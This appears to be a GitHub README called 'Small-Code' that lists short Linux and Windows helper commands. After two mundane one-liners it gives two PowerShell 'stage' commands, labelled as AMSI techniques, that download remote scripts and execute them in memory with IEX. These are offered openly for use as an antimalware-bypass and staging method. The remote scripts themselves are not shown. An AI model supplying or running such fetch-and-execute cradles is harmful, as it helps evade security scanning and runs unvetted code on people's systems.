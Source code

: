 ![alt text](https://github.com/HeeresS/Small-Code/blob/main/logo.png?raw=true)
# Small-Code
Small codes that will help with daily tasks for Linux and Windows. 
### Add text to line
~~~
awk  '{print "http://" $1}' urls.txt
~~~
### Change permissions of folder (Linux)
~~~
sudo chmod +x $(find /PATH/)
~~~
## Stage One (AMSI Techniques)
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/Small-Code/main/StageOne.ps1'); Invoke-StageOne
~~~
## Stage Two
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/Small-Code/main/StageTwo.ps1'); Invoke-StageTwo
~~~

